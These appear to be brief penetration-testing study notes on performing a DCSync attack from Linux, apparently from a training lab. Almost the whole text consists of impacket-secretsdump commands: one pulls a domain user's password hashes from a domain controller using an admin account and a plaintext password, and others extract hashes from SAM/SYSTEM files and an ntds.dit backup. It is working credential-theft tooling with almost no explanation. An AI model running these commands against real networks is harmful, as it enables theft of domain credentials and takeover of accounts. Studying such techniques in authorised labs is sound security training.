 dcsync attack from Linux
can use pass-the-hash and pas-the-ticket
```bash
# target username **dave**
$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

# user to log into DC to get info about "dave" domain/user:password@ip
```
```bash
# Get hashes from local files
impacket-secretsdump -sam ./SAM -system ./SYSTEM LOCAL
```
```bash
$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```